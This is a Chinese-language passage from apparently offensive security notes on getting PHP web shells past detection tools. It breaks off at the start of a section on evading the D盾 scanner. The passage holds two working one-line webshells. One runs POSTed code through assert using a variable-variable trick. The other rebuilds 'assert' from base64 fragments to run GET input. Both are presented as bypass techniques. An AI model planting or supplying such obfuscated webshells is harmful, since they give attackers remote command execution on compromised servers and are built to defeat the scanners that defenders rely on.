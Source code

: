 **双$$符号绕过**
```php
<?php
$bb="assert";
$a='bb';
$$a($_POST['shell']);
?>
```
`$$a`为一个变量，`$a`的值为 bb 则 `$$a = $($a)=$bb` 等同于 `$bb` 

**Base64绕过**

```php
<?php
$a='YXN';
$b='zZX';
$c='J0';
$D=$a.$b.$c;
$x=base64_decode($D);
$x($_GET['a']);
?>
```
`YXNzZXJ0` 是 `assert` 的base64编码，base64_decode()是base64解密函数

---

## BypassD盾

少壮不努力，老大遇阿D

拿`eval()`举例
**当eval()加一个变量时:**
![](img/25.png)
威胁等级为4，当场被🔪。


**当eval()加一个变量并同时包含一个页面时:**